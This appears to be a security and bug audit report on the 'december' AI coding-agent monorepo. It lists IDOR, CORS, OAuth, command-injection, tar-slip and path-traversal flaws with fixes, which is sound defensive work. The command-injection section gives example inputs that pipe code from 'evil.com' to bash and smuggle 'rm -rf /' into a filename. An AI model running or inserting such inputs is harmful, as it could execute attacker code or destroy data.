

# Comprehensive Security, Vulnerability, and Bug Audit Report

**Target Codebase:** `phasehumans/december`  
**Audit Scope:** Full Monorepo (`apps/server`, `apps/worker`, `apps/web`, `apps/cli`, `packages/agent`, `packages/tools`, `packages/providers`, `packages/database`, `packages/tui`)  
**Audit Date:** August 2026

---

## Executive Summary

A comprehensive architectural, security, and bug audit of the **December** codebase identified **18 critical and high-severity vulnerabilities**, **11 severe logic and agent runtime bugs**, and multiple architectural and database risks.

### Severity Breakdown

| Severity         | Count | Primary Impact Areas                                                                                                                                                     |
| :--------------- | :---: | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Critical**     |   6   | Unauthorized Remote Command Execution (RCE), Session/Terminal IDOR, GitHub Repo Takeover, Permissive Wildcard CORS with Credentials, Unauthenticated Callbacks           |
| **High**         |   7   | OAuth CSRF Account Linking, Host Tar-Slip Extraction, Insecure Inactivity Sandbox Lifecycle, LLM Tool Call Out-of-Order API Crashes, Plaintext Credential Storage        |
| **Medium / Low** |   9   | `edit_file` `$`-corruption, Multi-hunk diff offset drift, DuckDuckGo URL parsing failure, Insecure PRNG, Floating-point billing balances, TypeScript compilation failure |

---

## 1. Critical Security Vulnerabilities

### 1.1 Critical IDOR & Arbitrary Remote Shell Command Execution via Socket.IO

- **Location:** [`apps/server/src/socket.ts:116-163, 186-256`](file:///home/chaitanya/code/december/apps/server/src/socket.ts#L116-L163)
- **Severity:** **CRITICAL**
- **Vulnerability:** Broken Object-Level Authorization (IDOR) & Unauthorized Sandbox Control
- **Mechanics:**
  In `initSocket`:

    ```ts
    socket.on('join_session', (sessionId: string) => {
        socket.join(`session:${sessionId}`)
    })

    socket.on('join_session_terminal', (data: { sessionId: string } | string) => {
        socket.join(`session_terminal:${sId}`)
    })

    socket.on('TERMINAL_INPUT', async (data: { sessionId: string; data: string }) => {
        if (data?.sessionId && data?.data) {
            await pubClient.publish(`session_terminal_input:${data.sessionId}`, data.data)
        }
    })

    socket.on('stop_session', async (data: { sessionId: string }) => {
        await pubClient.publish(
            `session_interrupts:${data.sessionId}`,
            JSON.stringify({ type: 'INTERRUPT' })
        )
    })
    ```

    Any authenticated user can join any arbitrary `sessionId` room or `session_terminal` room without verifying whether `socket.data.userId` owns the session.

- **Impact:**
    - An attacker can eavesdrop on private agent events, tool executions, generated source code, and API keys.
    - An attacker can inject keystrokes (`TERMINAL_INPUT`) into another user's live microVM sandbox to execute arbitrary shell commands.
    - An attacker can terminate any active user's session with `stop_session`.
- **Remediation:**
  Validate session ownership against the database/cache before joining rooms or publishing to Redis:
    ```ts
    const session = await prisma.session.findFirst({
        where: { id: targetSessionId, userId: socket.data.userId },
    })
    if (!session) return socket.emit('error', { message: 'Unauthorized session access' })
    ```

---

### 1.2 Overly Permissive Wildcard CORS with Credentials

- **Location:** [`apps/server/src/app.ts:56-73`](file:///home/chaitanya/code/december/apps/server/src/app.ts#L56-L73) and [`apps/server/src/socket.ts:43-59`](file:///home/chaitanya/code/december/apps/server/src/socket.ts#L43-L59)
- **Severity:** **CRITICAL**
- **Vulnerability:** Cross-Origin Request Forgery (CORS Misconfiguration)
- **Mechanics:**
    ```ts
    cors({
        origin: (origin, callback) => {
            if (
                allowedOrigins.includes(origin) ||
                origin.endsWith('.vercel.app') ||  // <--- ANY Vercel subdomain!
                ...
            ) {
                return callback(null, true)
            }
            return callback(null, false)
        },
        credentials: true,
    })
    ```
- **Impact:**
  `origin.endsWith('.vercel.app')` allows **any attacker** with a free Vercel deployment (e.g. `evil-attacker.vercel.app`) to issue authenticated cross-origin XMLHttpRequests/fetch requests with cookies to `/api/v1/*` and Socket.IO, reading session tokens, user secrets, and triggering background actions on behalf of authenticated victims.
- **Remediation:**
  Restrict allowed origins to explicit production domains or a strict regex matching only official deployment subdomains:
    ```ts
    const ALLOWED_ORIGIN_REGEX =
        /^https:\/\/(december(-[a-z0-9-]+)?\.vercel\.app|trydecember\.com)$/
    ```

---

### 1.3 GitHub App Installation Theft & Cross-Tenant Repo Takeover

- **Location:** [`apps/server/src/modules/githubapp/githubapp.repository.ts:96-114`](file:///home/chaitanya/code/december/apps/server/src/modules/githubapp/githubapp.repository.ts#L96-L114) and [`apps/server/src/modules/githubapp/githubapp.controller.ts:26-66`](file:///home/chaitanya/code/december/apps/server/src/modules/githubapp/githubapp.controller.ts#L26-L66)
- **Severity:** **CRITICAL**
- **Vulnerability:** Insecure Installation Lookup Fallback & Unsigned State Parameter
- **Mechanics:**

    ```ts
    const findByOwnerAndUser = async (owner: string, userId?: string) => {
        if (userId) {
            const userInstallation = await prisma.githubAppInstallation.findFirst({
                where: { userId, accountLogin: { equals: owner, mode: 'insensitive' } },
            })
            if (userInstallation) return userInstallation
        }

        // CRITICAL FLAW: Falls back to ANY user's installation for this owner
        return prisma.githubAppInstallation.findFirst({
            where: { accountLogin: { equals: owner, mode: 'insensitive' } },
        })
    }
    ```

    Additionally, in `handleCallback`:

    ```ts
    const state = req.query.state as string
    const parts = decodeURIComponent(state).split('|')
    const userId = parts[0]
    // Unsigned state allows attaching installationId to any victim userId
    ```

- **Impact:**
    - If Organization X installs December, User A (who is not part of Org X) can request an installation token for Org X repositories via `/api/v1/upload/github` or `/api/v1/platform/sync` and receive full read/write access tokens to Org X's private codebases.
    - State parameter tampering in installation callbacks allows account hijacking.
    - Open Redirect in `handleCallback` via unvalidated `returnUrl`.
- **Remediation:**
    - Require strict `userId` matching in `findByOwnerAndUser`; never fall back to unrelated tenant installations.
    - Sign OAuth `state` parameters using HMAC SHA-256 with an expiration timestamp.

---

### 1.4 OAuth CSRF & Insecure Account Linking

- **Location:** [`apps/server/src/modules/integration/integration.controller.ts:9-70`](file:///home/chaitanya/code/december/apps/server/src/modules/integration/integration.controller.ts#L9-L70)
- **Severity:** **HIGH**
- **Vulnerability:** Unverified OAuth State Parameter (CSRF / Account Takeover)
- **Mechanics:**
    ```ts
    const connectVercel = asyncHandler(async (req: Request, res: Response) => {
        const { code, state, teamId, configurationId } = connectVercelQuerySchema.parse(req.query)
        let userId = state
        if (state.includes(':')) {
            userId = state.split(':')[0]
        }
        await integrationsService.connectVercel({ code, userId, ... })
    ```
    `connectVercel`, `connectSupabase`, `connectNotion`, and `connectGithub` directly trust `state` as the `userId` without verifying a cryptographic signature or session-bound nonce.
- **Impact:**
  An attacker can start an OAuth flow, generate an authorization code for their own third-party account, and trick a victim into submitting the callback with `state=victimUserId`, binding attacker credentials to the victim account or vice versa.
- **Remediation:**
  Encode and verify an HMAC-signed JWT in the `state` parameter containing `userId`, session ID, and expiration timestamp.

---

### 1.5 Unauthenticated Runtime Status Callback Bypass

- **Location:** [`apps/server/src/modules/runtime/runtime.controller.ts:63-70`](file:///home/chaitanya/code/december/apps/server/src/modules/runtime/runtime.controller.ts#L63-L70)
- **Severity:** **HIGH**
- **Vulnerability:** Flawed Secret Verification (Falsy Check Bypass)
- **Mechanics:**

    ```ts
    const expectedSecret = process.env.RUNTIME_SHARED_SECRET
    const receivedSecret = req.header('x-december-runtime-secret')

    if (expectedSecret && receivedSecret !== expectedSecret) {
        throw new AppError('unauthorized runtime callback', 401)
    }
    ```

- **Impact:**
  `RUNTIME_SHARED_SECRET` is optional in `env.ts`. When `RUNTIME_SHARED_SECRET` is unset/undefined in production, `expectedSecret` is falsy, **skipping the authorization check completely**. Anyone on the public internet can POST to `/api/v1/runtime/previews/:id/callback` to alter preview states and inject arbitrary preview URLs or errors.
- **Remediation:**
  Make `RUNTIME_SHARED_SECRET` mandatory in `env.ts` and enforce strict timing-safe comparison:
    ```ts
    if (!expectedSecret || receivedSecret !== expectedSecret) {
        throw new AppError('unauthorized runtime callback', 401)
    }
    ```

---

### 1.6 Command Injection via Shell Interpolation in Worker & Sandbox

- **Location:**
    - [`apps/worker/src/index.ts:68-70`](file:///home/chaitanya/code/december/apps/worker/src/index.ts#L68-L70)
    - [`apps/worker/src/e2b-sandbox.service.ts:264-268`](file:///home/chaitanya/code/december/apps/worker/src/e2b-sandbox.service.ts#L264-L268)
    - [`apps/worker/src/workspace.ts:293-301`](file:///home/chaitanya/code/december/apps/worker/src/workspace.ts#L293-L301)
- **Severity:** **HIGH**
- **Vulnerability:** Unescaped Shell Interpolation in Sandbox Command Runner
- **Mechanics:**

    ```ts
    // apps/worker/src/index.ts
    if (prUrl) {
        await sandbox.commands.run(`git clone ${prUrl} /workspace`)
    }

    // apps/worker/src/workspace.ts
    const cleanPath = rawPath.replace(/^\/+/, '').replace(/^workspace\//, '')
    await sandbox.commands.run(`cat "/workspace/${cleanPath}" | base64`, { cwd: '/workspace' })
    ```

- **Impact:**
  Malicious URLs containing shell metacharacters (`https://github.com/org/repo; curl evil.com | bash`) or filenames with double quotes (`test"; rm -rf /; "`) execute arbitrary shell commands inside the microVM.
- **Remediation:**
  Wrap all dynamic arguments in `escapeShellArg` or use structured argument passing.

---

### 1.7 Host-Level Tar-Slip & Argument Injection During Workspace Extraction

- **Location:** [`apps/worker/src/workspace.ts:237-244`](file:///home/chaitanya/code/december/apps/worker/src/workspace.ts#L237-L244)
- **Severity:** **HIGH**
- **Vulnerability:** Unsafe Host-Level Tar Extraction & Shell Globbing
- **Mechanics:**
    ```ts
    // Running on host worker machine!
    execSync(`tar -xzf "${tempZipPath}" -C "${tempExtractDir}"`)
    execSync(`cp -r "${tempExtractDir}"/* "${workspaceDir}"/ 2>/dev/null || true`)
    ```
- **Impact:**
    - Untrusted archive extraction on the host machine without `--no-same-owner` or path validation exposes the worker node to Tar-Slip path traversal vulnerabilities (`../../`).
    - Filenames beginning with `-` in `tempExtractDir` cause argument injection in `cp -r *`.
- **Remediation:**
  Extract archives using a secure streaming Node.js tar parser (`tar-stream`) with strict path confinement checks, rather than host `execSync`.

---

### 1.8 Path Traversal & Boundary Escaping in `RemotePlatformAdapter`

- **Location:** [`apps/worker/src/remote-operations.ts:9-17, 103-115`](file:///home/chaitanya/code/december/apps/worker/src/remote-operations.ts#L9-L17)
- **Severity:** **HIGH**
- **Vulnerability:** Incomplete Path Normalization
- **Mechanics:**
    ```ts
    const resolveWorkspacePath = (rawPath: string): string => {
        const trimmed = rawPath.trim()
        if (!trimmed || trimmed === '.' || trimmed === './') return '/workspace'
        if (trimmed.startsWith('/workspace')) return trimmed
        ...
    }
    ```
    If a path like `/workspace/../../etc/passwd` is provided, `trimmed.startsWith('/workspace')` is true, bypassing boundary checks. Additionally, `search.find` and `search.grep` (lines 103–115) do not validate `dirPath`, allowing searches across root directories.
- **Remediation:**
  Normalize paths with `path.resolve('/workspace', rawPath)` and assert `resolved.startsWith('/workspace')`.

---

### 1.9 Plaintext Storage of OAuth Integration Tokens

- **Location:** [`packages/database/prisma/schema.prisma:35-48`](file:///home/chaitanya/code/december/packages/database/prisma/schema.prisma#L35-L48)
- **Severity:** **MEDIUM / HIGH**
- **Vulnerability:** Sensitive Credentials Stored Unencrypted at Rest
- **Mechanics:**
  `vercelAccessToken`, `supabaseAccessToken`, `supabaseRefreshToken`, `notionAccessToken`, and `githubToken` are stored in plaintext in the `User` table, whereas user environment variables are encrypted via `secrets.service.ts` (AES-256-GCM).
- **Impact:**
  A database snapshot leak or SQL injection immediately exposes full third-party tokens with write access to users' Vercel projects, Supabase databases, Notion workspaces, and GitHub repos.
- **Remediation:**
  Encrypt all third-party OAuth access and refresh tokens using AES-256-GCM before saving to the database.

---

### 1.10 Insecure Permissions on CLI Local Credentials File

- **Location:** [`apps/cli/src/config.ts:116-126`](file:///home/chaitanya/code/december/apps/cli/src/config.ts#L116-L126)
- **Severity:** **MEDIUM**
- **Vulnerability:** Overly Permissive File Mode on Credentials
- **Mechanics:**
  `saveConfig` writes `~/.december/config.json` (containing `decemberToken` and BYOK API keys) using default `fs.writeFile` permissions (`0o644` or `0o666`), making it readable by other local users on shared systems.
- **Remediation:**
  Create files and directories with explicit mode permissions:
    ```ts
    await fs.mkdir(configDir, { recursive: true, mode: 0o700 })
    await fs.writeFile(configPath, JSON.stringify(config, null, 2), { mode: 0o600 })
    ```

---

### 1.11 Cryptographically Insecure PRNG for Device Verification Codes

- **Location:** [`apps/server/src/modules/auth/auth.utils.ts:25-32`](file:///home/chaitanya/code/december/apps/server/src/modules/auth/auth.utils.ts#L25-L32)
- **Severity:** **MEDIUM**
- **Vulnerability:** Weak Random Number Generator in Auth Flow
- **Mechanics:**
  `generateUserCode` uses `Math.random()` to generate the 8-character device verification code.
- **Remediation:**
  Use `crypto.randomInt` or `crypto.randomBytes`:
    ```ts
    export const generateUserCode = (): string => {
        const chars = 'ABCDEFGHJKLMNPQRSTUVWXYZ23456789'
        let result = ''
        for (let i = 0; i < 8; i++) {
            result += chars.charAt(crypto.randomInt(0, chars.length))
        }
        return `${result.substring(0, 4)}-${result.substring(4, 8)}`
    }
    ```

---

## 2. Severe Runtime Bugs & Agent Loop Flaws

### 2.1 Out-of-Order Tool Execution Causing LLM API 400 Bad Request Errors

- **Location:** [`packages/agent/src/agent-loop.ts:696-722`](file:///home/chaitanya/code/december/packages/agent/src/agent-loop.ts#L696-L722)
- **Severity:** **HIGH**
- **Bug Description:**
  In `executeTurnToolCalls`, tool calls are partitioned into `parallelReadCalls` and `sequentialWriteCalls`. All reads are executed **first**, followed by writes.
    - If the model generates `[write_file('app.ts'), read_file('app.ts')]`, `read_file` executes before `write_file` creates the file.
    - The results are appended to `agent.messages` in the partitioned execution order (`[read_result, write_result]`), violating OpenAI and Anthropic API requirements where tool results must strictly match the original assistant `tool_calls` order and IDs.
- **Remediation:**
  Preserve original tool call indices or execute tools in dependency sequence while maintaining strictly aligned message ordering.

---

### 2.2 Inverted Inactivity Disconnect Logic Never Pausing Running Sandboxes

- **Location:** [`apps/worker/src/e2b-sandbox.service.ts:445-459`](file:///home/chaitanya/code/december/apps/worker/src/e2b-sandbox.service.ts#L445-L459)
- **Severity:** **HIGH**
- **Bug Description:**
    ```ts
    setTimeout(async () => {
        const session = await prisma.session.findUnique({ where: { id: sessionId } })
        // INVERTED LOGIC: Only pauses if NOT running!
        if (!session || session.vmStatus !== 'RUNNING') {
            await pauseSandbox({ sessionId })
        }
    }, delay)
    ```
    When a user closes their tab, the grace period timer executes. Because `session.vmStatus !== 'RUNNING'` evaluates to `false` for active running sessions, `pauseSandbox` is **never** executed. Sandboxes run indefinitely until E2B API timeouts kill them.
- **Remediation:**
  Change condition to: `if (session && session.vmStatus === 'RUNNING') { await pauseSandbox({ sessionId }) }`

---

### 2.3 `edit_file` Special Replacement Pattern (`$`) Corruption

- **Location:** [`packages/tools/src/edit.ts:20-24`](file:///home/chaitanya/code/december/packages/tools/src/edit.ts#L20-L24)
- **Severity:** **HIGH**
- **Bug Description:**
    ```ts
    const updated = content.replace(targetContent, replacementContent)
    ```
    In JavaScript, `String.prototype.replace(target, replacement)` interprets `$` characters (`$1`, `$&`, `$'`, `$$`) in the replacement string as pattern substitutions. Any code containing regex match variables, shell parameters (`$1`), or template literals gets corrupted upon editing.
- **Remediation:**
  Use a replacer function: `content.replace(targetContent, () => replacementContent)`.

---

### 2.4 Multi-Hunk Line Offset Drift in `fuzzy_patch.ts`

- **Location:** [`packages/tools/src/fuzzy_patch.ts:186-196`](file:///home/chaitanya/code/december/packages/tools/src/fuzzy_patch.ts#L186-L196)
- **Severity:** **MEDIUM**
- **Bug Description:**
  When applying multiple unified diff hunks, `fileLines.splice(targetIdx, deleteCount, ...hunk.newLines)` changes the total length of the array. Subsequent hunks calculate match scores using the original unmodified `hunk.oldStart` without accounting for the accumulated line delta, leading to misaligned patch applications or patch rejection.
- **Remediation:**
  Track `accumulatedDelta += (hunk.newLines.length - hunk.oldLines.length)` and adjust search windows, or apply hunks in reverse order (bottom to top).

---

### 2.5 Detached Background Generator in `runAgentLoop`

- **Location:** [`packages/agent/src/agent-loop.ts:200-250`](file:///home/chaitanya/code/december/packages/agent/src/agent-loop.ts#L200-L250)
- **Severity:** **MEDIUM**
- **Bug Description:**
  `runAgentLoop` runs the core loop inside an unlinked background IIFE. If the consuming `for await (const event of runAgentLoop(...))` is aborted or returns early, the generator ends, but the background loop continues querying LLMs and executing tool commands until completion.
- **Remediation:**
  Wrap `yield* eventQueue` in a `try...finally` block that explicitly triggers `abortController.abort()`.

---

### 2.6 Broken TypeScript Compilation in `packages/providers`

- **Location:** [`packages/providers/src/providers/openai.ts:43:35`](file:///home/chaitanya/code/december/packages/providers/src/providers/openai.ts#L43)
- **Severity:** **MEDIUM**
- **Bug Description:**
  `providerFetch(url: RequestInfo | URL, init?: RequestInit)` throws `TS2552: Cannot find name 'RequestInfo'` during `bun run typecheck` because DOM/fetch type libraries are not in scope for this package.
- **Remediation:**
  Change type signature to `url: string | URL, init?: RequestInit`.

---

### 2.7 Floating-Point Currency Precision in Prisma Schema

- **Location:** [`packages/database/prisma/schema.prisma:49`](file:///home/chaitanya/code/december/packages/database/prisma/schema.prisma#L49)
- **Severity:** **MEDIUM**
- **Bug Description:**
  `creditBalance Float @default(0)` on the `User` model uses IEEE 754 floating-point arithmetic. Over time, usage increments and decrements accumulate rounding errors (e.g. `0.30000000000000004`), causing balance inconsistencies and faulty comparison logic (`hasMinimumBalance`).
- **Remediation:**
  Store balances as integer cents (`creditBalanceInCents Int`) or use PostgreSQL `Decimal`.

---

### 2.8 DuckDuckGo Relative URL Search Parsing Failure

- **Location:** [`packages/tools/src/web_search.ts:40-46`](file:///home/chaitanya/code/december/packages/tools/src/web_search.ts#L40-L46)
- **Severity:** **LOW**
- **Bug Description:**
  DuckDuckGo HTML results often format links as relative redirect paths (`/l/?uddg=...`). Because the condition only checks `link.startsWith('//')`, relative redirect URLs remain unparsed, returning unresolvable local URLs to the agent.
- **Remediation:**
  Parse relative paths using `new URL(link, 'https://html.duckduckgo.com')` and extract `uddg`.

---

### 2.9 Hardcoded Empty Secrets Array in Socket Prompt Enqueue

- **Location:** [`apps/server/src/socket.ts:220-226`](file:///home/chaitanya/code/december/apps/server/src/socket.ts#L220-L226)
- **Severity:** **LOW**
- **Bug Description:**
  `const secrets: any[] = []` is hardcoded in `send_prompt`. User secrets stored in the database are never loaded and passed to the agent job.
- **Remediation:**
  Fetch and decrypt user secrets from `secretsService.getSecrets` prior to enqueuing the BullMQ job.

---

## 3. Recommended Remediation Roadmap



1. **Immediate Action (Day 1)**:
    - Implement ownership validation in `apps/server/src/socket.ts` on `join_session`, `join_session_terminal`, `TERMINAL_INPUT`, and `send_prompt`.
    - Remove wildcard `.vercel.app` origin matching in `apps/server/src/app.ts` and `socket.ts`.
    - Enforce strict `userId` scoping in `findByOwnerAndUser` in `githubapp.repository.ts`.
    - Fix `openai.ts` type signature to restore `turbo run typecheck`.

2. **Short-Term Action (Week 1)**:
    - Fix `agent-loop.ts` tool call execution order to maintain identical tool sequence and IDs.
    - Correct the inverted inactivity disconnect check in `e2b-sandbox.service.ts`.
    - Replace raw `content.replace(target, replacement)` with `content.replace(target, () => replacement)` across `packages/tools`.
    - Sign all OAuth `state` parameters with HMAC SHA-256.

3. **Medium-Term Action (Week 2)**:
    - Replace host `execSync(tar)` with streaming Node.js tar parser with path boundary validation.
    - Encrypt third-party integration tokens in `User` model.
    - Migrate `creditBalance` from `Float` to `Int` (in cents).
